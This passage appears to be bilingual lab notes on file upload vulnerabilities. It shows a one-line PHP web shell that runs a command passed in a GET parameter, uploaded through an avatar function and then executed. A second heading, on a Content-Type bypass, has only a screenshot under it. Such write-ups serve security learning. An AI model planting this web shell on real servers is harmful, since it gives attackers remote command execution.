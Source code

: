 ## Ejecución remota con web shell subida || Remote code execution via web shell upload


![](/img2/Pasted%20image%2020250925143820.png)

```php
<?php system($_GET[0]);?>
```

> We upload a malicious php file in the add avatar function.

![](/img2/Pasted%20image%2020250925143937.png)

> We point to the uploaded "image" and see that it executes the php code.

## Web shell por bypass de Content-Type || Web shell upload via Content-Type restriction bypass

![](/img2/Pasted%20image%2020250927114713.png)
